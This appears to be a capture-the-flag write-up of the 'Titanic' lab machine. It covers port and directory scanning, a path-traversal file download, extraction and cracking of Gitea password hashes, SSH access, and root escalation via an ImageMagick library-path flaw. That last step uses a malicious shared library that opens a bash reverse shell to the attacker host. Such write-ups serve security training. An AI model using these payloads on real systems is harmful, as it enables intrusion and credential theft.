

Let's scan the IP address
```bash
sudo nmap -v -sC -sV 10.10.11.55
```
![[2025-03-06_16-08.png]]
Let's go to the site
![[2025-03-06_16-13.png]]
Let's check for directories
```bash
gobuster dir --wordlist=/usr/share/wordlists/rockyou.txt -u http://titanic.htb/
```
![[2025-03-06_16-05.png]]
Directory `/download` was found. Let's go to it
```URL
http://http://titanic.htb/download
```
![[2025-03-06_16-15.png]]
Error `{"error":"Ticket parameter is required"}`. This means that a ticket must be passed in the `URL`. Let's try to pass ticket `123`
```URL
http://titanic.htb/download?ticket=123
```
![[2025-03-06_16-16.png]]
Ticket not found. Most likely, the ticket is a file that the site allows you to download. Let's try to exploit `path traversal`. Download file `/etc/passwd`
```URL
//http://titanic.htb/download?ticket=../../../../etc/passwd
```
![[2025-03-06_16-18.png]]
![[2025-03-06_16-19.png]]
The vulnerability worked. Here at least the users `developer` and `root` are interesting
Let's try to get into the home directory of `developer` and find the flag `user.txt`
``URL
http://titanic.htb/download?ticket=../../../../home/developer/user.txt
```
![[2025-03-06_16-24.png]]
The first flag is
```flag
00ac3cda319b165b9a529d42af6c17f9
```
If there is `developer`, then most likely there is a subdomain `dev`. Let's check it out
![[2025-03-06_17-12.png]]
Let's try adding this subdomain to `/etc/hosts`
![[2025-03-06_17-14.png]]
![[2025-03-06_17-11.png]]
Now we have access to the `dev` subdomain.
Press the `Explore` button.



There are 2 repositories here: `developer/docker-config` and `developer/flask-app`. Let's go to the first


The `mysql` folder is interesting here. It contains `docker-compose.yml`, which contains the address of the database and its password


```Adress
127.0.0.1:3306:3306
```
```Password
MySQLP@$$w0rd!
```
Now let's open the second repository


We see that `gitea` runs in a `Docker` container, which saves everything to the `/home/developer/gitea/data` directory.
`gitea` most likely has its own database. Let's try to find it in the directory `/home/developer/gitea/data/gitea/gitea.db`
```URL
http://titanic.htb/download?ticket=../../..//home/developer/gitea/data/gitea/gitea.db
```
The file `gitea.db` has been downloaded. See what's in it
```bash
sqlite3 gitea.db
```


There is a table `user`. Let's see what this table consists of
```sqlite
.schema user
```


The columns `lower_name`, `passwd` and `salt` are interesting here. Let's get them out
```sqlite
select lower_name, passwd, salt from user;
```


```hash
administrator|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960 d459c08d2dfc063b2406ac9207c980c47c5d017136|2d149e5fbd1b20cf31db3e3c6a28f c9b
```
```hash
developer|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56|8bf3e3452b78544f8bee9400d6936d34
```
`hashcat` cannot break such a hard hash directly. So let's convert these hashes to `SHA-256`. I'll use [gitea2hashcat.py](https://github.com/unix-ninja/hashcat/blob/master/tools/gitea2hashcat.py)
Developer:
```bash
python3 gitea2hashcat.py "e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8e fc5dbef30bf1682619263444ea594cfb56|8bf3e3452b78544f8bee9400d6936d34"
```
```bash
echo 'sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=' > sha_developer.txt
```
```bash
hashcat -m 10900 sha_developer.txt /usr/share/wordlists/rockyou.txt
```


```Password
25282528
```
Administrator:
```bash
python3 gitea2hashcat.py "cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d 2dfc063b2406ac9207c980c47c5d017136|2d149e5fbd1b20cf31db3e3c6a28fc9b"
```
```bash
echo 'sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=' > sha_administrator.txt
```
```bash
hashcat -m 10900 sha_administrator.txt /usr/share/wordlists/rockyou.txt
```
`hashcat` couldn't break the hash of `administrator`, but it did break `developer`. Let's connect to it via `SSH`


Let's do some tunneling
```bash
ssh -L 3000:localhost:3000 developer@titanic.htb
```
After that, `Gitea` is available on our machine at `http://localhost:3000`.
After digging around in the file system, I found an `identify_images.sh` bash script in `/opt/scripts` that works with `ImageMagick 7.1.1-35` and runs as `root`. Most likely, there is an exploit for it.


I found information about this [exploit](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8). We see that `ImageMagick 7.1.1-35` is vulnerable due to incorrectly configured `MAGICK_CONFIGURE_PATH` and `LD_LIBRARY_PATH` environment variables and due to paths with double colons `::`, which forces `ImageMagick` to look for files in the **current working directory**.
First, compile the malicious library with built-in `reverse shell`
```bash
gcc -x c -shared -fPIC -o libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
system("bash -c 'bash -i >& /dev/tcp/10.10.14.130/4444 0>&1'");
exit(0);
}
EOF
```
where `__attribute__((constructor))` — the `init()` function will be executed **automatically when the library is loaded**; - `system()` — runs the command for the `reverse shell`.


Now run `nc` listening on port `4444`
```bash
sudo nc -lvnp 4444
```
Now run the script `identify_images.sh` and go to the terminal with `nc`


```flag
8458fb76e993d949c7e1f3255c2fcf70
```
## How it works
The script `identify_images.sh` runs `magick identify` in directory `/opt/app/static/assets/images`.
Due to vulnerability:
- `LD_LIBRARY_PATH` contains **empty path** (current directory).
- ImageMagick searches for libraries (e.g. `libxcb.so.1`) **in the current directory**.
When `magick identify` tries to load the `libxcb.so.1` library, it finds a **malicious file** instead of a system one.

The `init()` function is executed with **the privileges of the user who launched the script** (`root`).
